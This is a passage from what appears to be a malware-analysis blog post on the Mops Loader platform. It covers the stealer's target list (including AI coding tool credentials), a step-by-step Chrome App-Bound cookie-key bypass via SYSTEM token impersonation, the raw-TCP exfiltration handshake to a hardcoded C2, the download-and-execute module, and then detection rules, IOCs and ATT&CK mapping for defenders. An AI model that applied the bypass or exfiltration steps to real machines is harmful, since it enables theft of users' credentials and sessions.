| 2FA / passwords    | Google Authenticator, Authy, Microsoft Authenticator, Bitwarden, KeePassXC, LastPass, NordPass... extensions      |
| Messaging          | Telegram (desktop, web sessions, wallets), Discord tokens, Tox, Jabber (Pidgin), Viber, MicroSIP                  |
| Gaming             | Steam (tokens, cookies), Battle.net, Epic Games, Riot Games, Rockstar / GTA V, GTA5RP, Roblox, Minecraft clients, EXBO |
| Remote access, ops | AnyDesk, ngrok, FileZilla, Cyberduck, DynDNS, OBS stream keys                                                     |
| VPN                | OpenVPN, ProtonVPN, Surfshark, Windscribe                                                                         |
| AI coding tools    | Claude Code, Codex, Gemini CLI configuration and credentials                                                      |
| Files              | =.txt=, =.pdf=, =.doc(x)=, images: 5 MB per file, 20 MB in total, into =Important Files/=                         |

**** Getting around Chrome App-Bound Encryption

Since Chrome 127, cookies are protected by /App-Bound Encryption/.
#+begin_sidenote
Google Security Blog, July 2024:
[[https://security.googleblog.com/2024/07/improving-security-of-chrome-cookies-on.html][Improving the security of Chrome cookies on Windows]].
#+end_sidenote
The cookie key is wrapped twice, with the user DPAPI and then with the SYSTEM DPAPI on top, and is supposed
to be unwrapped only by Chrome's elevation service. The stealer bypasses the service and does the work itself:

1. read =app_bound_encrypted_key= from the browser's =Local State=;
2. find =winlogon.exe=, duplicate its token and impersonate it: the thread is now SYSTEM;
3. =CryptUnprotectData= (SYSTEM DPAPI layer), =RevertToSelf=, =CryptUnprotectData= again (user layer);
4. for the newest key format (a 93-byte blob whose first byte is =3=), impersonate SYSTEM again and decrypt
   the inner key with the CNG key *=Google Chromekey1=* of the /Microsoft Software Key Storage Provider/
   (=NCryptOpenKey= / =NCryptDecrypt=, 32-byte output);
5. store the result as =<browser>_AppBoundKey= and use it to decrypt the App-Bound protected cookies.

This requires administrative rights to open =winlogon.exe='s token, which the loader already obtained
through its UAC bypass: the loader and the module are clearly designed to work together.

**** AI coding assistants

A recent addition to the usual stealer target list: three tasks collect the local configuration of AI
coding agents, which frequently holds API keys or OAuth tokens:

| Task       | Files                                                      |
|------------+------------------------------------------------------------|
| ClaudeCode | =%USERPROFILE%\.claude\settings.json=                      |
| Codex      | =%USERPROFILE%\.codex\auth.json=, =config.toml=            |
| Gemini     | =%USERPROFILE%\.gemini\oauth_creds.json=, =google_accounts.json= |

**** Exfiltration

Everything is written into a ZIP archive built in memory, organised in folders (=Applications/Telegram/=,
=CryptoWallets/Extensions/=, =Vpn/ProtonVPN/=...) next to a =System.txt= report. The report is a template
whose placeholders are filled on the server side:

#+begin_src text
- Lid: %worker%
- IP Address: %ip%
- Time Save Log: %timesave%
- Country: %country%
#+end_src

The module even adds =Applications/Debug/TimesExecutions.txt=, a per-task timing log left by the developer.

The archive is not sent to the Mops C2 channel but to a dedicated listener, over raw TCP, with a minimal
handshake:

#+begin_src text
bot  → server : "stealer;" + <bot_id> + "\n"
server → bot  : "auth_ok"
bot  → server : <archive size, 8 bytes, big-endian>
bot  → server : <ZIP archive>
#+end_src

Then the module calls =ExitProcess=: it is a one-shot collection, the loader can run it again later with a
new task. Each build embeds its own listener, always on TCP/1488 of the very server that delivered it.

**** Seeing it run

The =1.0.3= module was also detonated in a Triage sandbox. The network capture contains a single
interesting TCP session, to the hardcoded C2 on port 1488, which matches the protocol above byte for byte:

#+begin_src text
stealer;8914e807\n                  ← bot identifier (C:\ volume serial)
auth_ok\n
00 00 00 00 00 26 24 34             ← 2,499,636 bytes, big-endian
50 4B 03 04 ...                     ← the ZIP archive
#+end_src

Once the stream is reassembled, the archive opens with any unzip tool. On this freshly installed sandbox it
contains 26 files: the browser databases copied as-is (=Chrome_Default_Passwords=, =Edge_Default_Cookies=,
=Firefox_<profile>_Cookies=...), the encryption keys (=Chrome_EncryptedKey=, =Edge_EncryptedKey= and
=Chrome_AppBoundKey=, recovered from a Chrome 140 profile), the decoy documents of the desktop in
=Important Files/=, the process list, the installed software, the screenshot and the system report:

#+begin_src text
- Mops Stealer V3: 08.09.2026
- Lid: %worker%

- OS Version: Windows 10 Pro (10.0.19041) x64
- Computer: FOOHEZMB
- User: Admin
- Anti Virus: Unknown
- HWID: 8914e807
- CPU Name: Intel Core Processor (Broadwell)
- GPU: Microsoft Basic Render Driver
- Display resolution: 1920x1080

- IP Address: %ip%
- Country: %country%
#+end_src

The developer's timing log (=TimesExecutions.txt=) shows where the time goes: most tasks find nothing and
return in less than a millisecond, the system report (848 ms), the screenshot (659 ms) and the cookies
(505 ms) are the slowest. The whole collection takes less than a second.

Note that this sandbox profile (a Broadwell CPU and the /Microsoft Basic Render Driver/) is exactly what the
loader's anti-analysis checks would reject: the stealer module itself does not carry those checks.

*** The update and download-and-execute module

The second module (mutex =Global\LoaderLib=) is much smaller and gives the operator two capabilities through
its task parameter:

- =update=: wait 6 seconds, download =GET /task/build= from the C2 module port (408) with the bot identifier
  as User-Agent, overwrite =C:\ProgramData\Windows\Microsoft\RuntimeBroker.exe= and start it. Combined with the
  loader's own =update= handling (acknowledge and exit), this is how the operator rolls out new loader builds;
- a *URL*: download the file and run it as =C:\ProgramData\svc_<8 hex>.exe= (the name is derived from
  =GetTickCount() ^ 0xDEADBEEF=). If the URL points to the C2 itself, the file is fetched from
  =/files?id=<name>= on port 408 instead.

The downloader is basic but careful: it checks =Content-Length=, verifies that the body is a well-formed PE
(MZ, PE signature, a sane optional header) before writing it, and starts it with a hidden window. This is the
"next payload" channel of the platform: anything the operator wants to sell or deploy on the bot can be
pushed with a single task.

** Detection opportunities

Most of these do not depend on a specific campaign:

- *Network*:
  - a WebSocket upgrade with =Sec-WebSocket-Key: dGhlIHNhbXBsZSBub25jZQ=== to a non-standard port;
  - binary WebSocket frames starting with =checkserver;=, =ready;= or =task_done;=;
  - DNS requests matching =^(lav|ini){6}\.duckdns\.org$=;
  - =GET /task/<name>= or =/files?id== with an 8-hex-character User-Agent;
  - a raw TCP stream starting with =stealer;= followed by 8 hex characters, answered by =auth_ok=;
  - a WebSocket server answering exactly =jhkaloip= to =checkserver;=, which is how the C2 can be hunted;
  - DNS requests for =mops.to=.
- *Host*:
  - =cmd.exe= created suspended and without window, then written to and given a new thread by another process;
  - =Add-MpPreference -ExclusionPath= chained with =gpupdate /force=;
  - scheduled tasks under =\Microsoft\...= whose action points to =C:\ProgramData\Windows\Microsoft\RuntimeBroker.exe=;
  - large =REG_BINARY= values starting with =MZ= under =HKCU\Software\WinRAR\Libs=;
  - a non-browser process duplicating =winlogon.exe='s token, then opening the =Google Chromekey1= CNG key.
- *Memory*: =amsi!AmsiOpenSession= starting with =48 31 C0= instead of =48 85 D2=.

** Tooling

The configuration of a Mops Loader build can be recovered statically. The extractor below first recovers
the per-build constants of the string primitive, then decrypts all the =.rdata= strings and keeps the ones
that make the configuration (C2, ports, campaign, version, install path). It relies on =lief= and never
executes the sample; it works on the three builds listed above.

#+begin_export hugo

#+end_export

#+begin_src text
$ python3 mops_config_extractor.py 77afc987c83097f06bc98e45a4b7891e96017f59ab309a4744c7aee414926ad1
{
  "c2": [
    "mops.to"
  ],
  "ports": [
    "406",
    "408"
  ],
  "campaign_id": "5749377762",
  "version": "1.0.0",
  "install_path": "C:\\ProgramData\\Windows\\Microsoft\\RuntimeBrokerA.exe"
}
#+end_src

My IDA database of the analysed loader (=265994409a3d…=, unpacked payload) is also available, with the
functions, types and comments used throughout this post (=c2_checkserver=, =ws_send_frame=,
=handle_task_msg=, =struct mops_task=…). It contains the sample itself, so it is shipped as a ZIP
archive protected with the usual password, =infected=.

#+begin_export hugo

#+end_export

** Indicators of compromise

*** Files

| Component                 | SHA-256                                                            |
|---------------------------+--------------------------------------------------------------------|
| Mops Loader, campaign 6925266445 ([[https://bazaar.abuse.ch/sample/265994409a3dbd511ff5bd6a6d24dea5b089d41f1dea8dcaeaabccd530ea09dd/][MalwareBazaar]]) | =265994409a3dbd511ff5bd6a6d24dea5b089d41f1dea8dcaeaabccd530ea09dd= |
| Mops Loader, campaign 5749377762 | =77afc987c83097f06bc98e45a4b7891e96017f59ab309a4744c7aee414926ad1= |
| Mops Loader, campaign 8934503551 | =4094bddf226fb6dd45e72ce8e5d3c3fc51c96ecef9473712aff06083445503e4= |
| Mops Loader, reported by winslow | =97c6e8a58c8ca86af979fa64a516a09cdc48c6dd61fc9dd027c4af715165fb66= |
| Stealer module 1.0.3 (Mops Stealer V3) | =3c110de70db7225573f6bd937a7704423bce6c03fad5fac3ea3fb5bacf130d50= |
| Stealer module 1.0.2 (Redhive)  | =9651824ed3d16bb543762a1aa5498d7fde278567c001605d0a32c2db0125cfb3= |
| Update / download module        | =d7296170408581c38dc2c95f0c31f6b9bdf822b9b076d90122e679e13269a935= |

*** Network

| Indicator              | Role                                                       |
|------------------------+------------------------------------------------------------|
| =mops.]to=            | hardcoded C2 of the two other loader builds                |
| =45.91.202.]146=       | hardcoded C2 (TCP/406 WebSocket, TCP/408 modules), stealer 1.0.3 exfiltration on TCP/1488 |
| =145.63.134.]94=       | C2 and module server, stealer 1.0.2 exfiltration on TCP/1488 |
| =188.137.246.]156=     | C2, hardcoded in the update module (TCP/408)               |
| =45.91.202.]47=        | same C2 fingerprint (Censys), no tasking observed          |
| =(lav or ini){6}.duckdns.]org= | 64 DGA domains (full list in =mops_dga_domains.txt=) |

*** Host

- =C:\ProgramData\Windows\Microsoft\RuntimeBroker.exe= or =RuntimeBrokerA.exe= (hidden, system)
- =C:\ProgramData\svc_<8 hex>.exe= (payloads dropped by the download module)
- mutexes =Global\RuntimeBrokerAds= (=…AdsA= in the two other builds), =Global\StealerLib=, =Global\LoaderLib=
- =HKCU\Software\Microsoft\EventSystem= value =System= (cached C2)
- =HKCU\Software\WinRAR\Libs= values =<type>_<ver>_chunk_<n>= (module cache)
- the four scheduled tasks listed above
- Defender exclusions on =C:\ProgramData\Windows\Microsoft= and =C:\ProgramData\Microsoft\Windows=

** MITRE ATT&CK

| Tactic               | Technique                                                                      |
|----------------------+--------------------------------------------------------------------------------|
| Execution            | T1106 Native API, T1059.001 PowerShell, T1059.003 Windows Command Shell        |
| Persistence          | T1053.005 Scheduled Task                                                       |
| Privilege escalation | T1548.002 Bypass UAC, T1134.001 Token Impersonation                            |
| Defense evasion      | T1027.013 Encrypted strings, T1562.001 Disable tools (AMSI, Defender), T1036.005 Masquerading, T1564.001 Hidden files, T1055 Process Injection, T1497.001 Sandbox evasion, T1622 Debugger evasion |
| Credential access    | T1555.003 Credentials from Web Browsers, T1539 Steal Web Session Cookie, T1552.001 Credentials in Files |
| Discovery            | T1082 System Information, T1518.001 Security Software, T1057 Process Discovery |
| Collection           | T1113 Screen Capture, T1115 Clipboard Data, T1005 Data from Local System, T1560 Archive Collected Data |
| Command and control  | T1071.001 Web Protocols, T1571 Non-Standard Port, T1568.002 DGA, T1008 Fallback Channels, T1105 Ingress Tool Transfer |
| Exfiltration         | T1048 Exfiltration Over Alternative Protocol (raw TCP)                         |

** References

- winslow, [[https://winslow1984.com/books/threat-intelligence/page/hey-you-hacked-a-hacker-are-you-ready-for-my-revenge][Hey, You Hacked a Hacker! Are You Ready For My Revenge?]], Winslow Blog, 2026:
  a victim's view of the same platform, from a fake GitHub repository to the Redhive (Mops) stealer
  =1.0.2= and the operator's infrastructure.
